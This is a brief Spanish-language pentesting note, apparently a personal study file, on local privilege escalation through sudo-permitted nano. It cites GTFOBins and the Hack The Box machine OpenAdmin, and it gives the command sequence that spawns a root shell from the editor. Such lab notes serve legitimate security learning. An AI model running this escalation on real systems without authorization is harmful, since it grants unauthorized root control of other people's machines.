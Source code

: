 
## DESCRIPTION

Si un suario puede ejecutar "nano" como sudo --> puede escarlar privilegios a root

#### More information
*  https://gtfobins.github.io/gtfobins/nano/
## EXPLOITATION

1. Enumeration
![[Pasted image 20230112182810.png]]
2. Utilizamos --> https://gtfobins.github.io/gtfobins/nano/
![[Pasted image 20230112182954.png]]
En nuestro caso tenemos que usar el comando del sudoers completo: 

````
sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
````

3. 
![[Pasted image 20230112183146.png]]


**!!NOTA IMPORTANTE!!**  Cuidado con la shell del nc que puede dar el siguiente error --> buscar otra shell alternativa

![[Pasted image 20230112192340.png]]


## MACHINES 

* Hack The Box: OPENADMIN
